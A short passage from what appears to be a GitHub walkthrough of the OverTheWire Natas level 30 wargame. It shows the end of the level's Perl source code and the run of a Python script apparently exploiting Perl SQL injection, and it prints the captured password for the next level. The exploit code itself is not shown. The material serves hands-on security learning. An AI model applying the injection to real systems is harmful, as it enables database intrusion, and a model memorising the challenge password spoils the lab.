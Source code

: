   ```
          print "here is your result:<br>";
          print @$ver;
      }
      else{
          print "fail :(";
      }
      $sth->finish();
      $dbh->disconnect();
  }
  
  print <<END;
  <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
  </div>
  </body>
  </html>
  END
  ```

- Exploitation is explained in the script comments.

  ```
  $ python3 natas30-perlSQLI.py  
  win!<br>here is your result:<br>natas31m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y<div id="viewsource"><a href="index-source.htm
  l">View sourcecode</a></div>
  ```

---

## 🏁 Password for the next level

`Password for natas31 is: m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y`

---

Back to [Main Repo](https://github.com/mauzware/OverTheWire-Natas)
